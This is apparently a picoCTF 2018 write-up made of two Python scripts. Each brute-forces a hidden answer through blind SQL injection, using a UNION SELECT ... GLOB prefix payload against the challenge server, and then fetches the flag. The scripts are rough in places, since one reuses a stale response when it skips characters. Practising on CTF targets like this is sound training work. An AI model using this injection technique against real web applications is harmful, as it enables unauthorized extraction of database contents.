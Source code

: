 Simple Python Script to get flag:  # using range(0x20,0x7f)

``` python
import requests
import string
import re

url = "http://2018shell.picoctf.com:15987/answer2.php"

s = requests.session()

def brute_force():
	final = ''
	while True:
		for c in range(0x20,0x7f):
			if c != 42 and c != 63:			
				params = { 
					'answer': "' UNION SELECT * FROM answers WHERE answer GLOB '{}{}*'; --".format(final, chr(c))
				}
				r = requests.post(url, data=params)
				res = r.text
			
			if 'You are so close.' in res:
				final += chr(c)
				print(final)
				break
			elif c == 0x7e:  # if you hit the end of the range with no match, you're done
				return final
ans = brute_force()
flag = requests.post(url, data={'answer': ans}).text
print('Flag: ' + re.findall(r'(picoCTF\{.+\})', flag)[0])
```

Simple Python Script to get flag:  # using string.printable
```
import requests
import string
import re

url = "http://2018shell.picoctf.com:15987/answer2.php"

s = requests.session()

def brute_force():
	final = ''
	while True:
		for c in string.printable:	
			if c == "*": # if you hit the end of the range with no match, you're done
				return final
			# https://www.sqlitetutorial.net/sqlite-glob/
			params = { 
				'answer': "' UNION SELECT * FROM answers WHERE answer GLOB '{}{}*'; --".format(final, str(c))
			}
			r = requests.post(url, data=params)
			res = r.text
			
			if 'You are so close.' in res:
				final += str(c)
				print(final)
				break
ans = brute_force()
flag = requests.post(url, data={'answer': ans}).text
print('Flag: ' + re.findall(r'(picoCTF\{.+\})', flag)[0])
```